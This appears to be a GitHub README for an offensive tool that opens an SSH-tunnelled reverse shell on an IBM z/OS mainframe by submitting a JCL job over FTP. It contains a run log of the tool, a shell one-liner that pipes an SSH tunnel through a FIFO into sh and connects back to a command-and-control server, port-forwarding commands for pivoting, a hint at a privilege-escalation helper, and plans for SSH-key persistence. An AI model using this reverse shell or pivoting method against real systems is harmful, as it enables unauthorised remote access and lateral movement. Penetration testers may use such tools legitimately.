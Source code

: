 # zos-pivoting

I wanted a secure reverse shell, with builtin pivoting functions, On a mainframe!

This repo contains a few Python modules and scripts to get a secure reverse shell by submitting a JCL job via FTP on z/OS. Here's a verbose example:

```
$ python ftp2shell.py config.ini -v
Input the password for zuser on target.mainframe.net:
INFO:root:Auto-detecting the ssh server fingerprint
INFO:root:Generating SSH keys

Save the pulic key below in ~cc_user/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB[...]

Press Enter to continue...
INFO:root:Opening FTP connection to the target at target.mainframe.net
INFO:root:Generating temporary files for the shell
INFO:root:Uploading the SSH key on the target
INFO:root:Uploading the host fingerprint on the target
INFO:root:Creating the FIFO for the shell
INFO:root:Running the reverse SSH command
INFO:root:Shell preparation
INFO:root:Waiting for target.mainframe.net activation
target.mainframe.net> uname
OS/390
target.mainframe.net> help

Documented commands (type help <topic>):
========================================
EOF  _findapf  _runssh  exit  help

target.mainframe.net> exit
This will terminate the connection to target.mainframe.net, are you sure? (y/N) y
```

## Usage:
The main files are:
 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items

To get a shell:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start an SSH connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The SSH tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further SSH commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.
 * there is also a `_findapf` command there too. You should know what that is for :)

## Design
This project uses the SSH stdin and stout redirection to get a fully interactive reverse shell on a mainframe.
You need OpenSSH>=5.4.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running SSH.

You have to do the cleanup on the mainframe by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
OpenSSH>=5.4.

Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Persistence via SSH keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`
    * ***z/OS 2.4 will probably get the latest and greatest OpenSSH with full `-R` support***
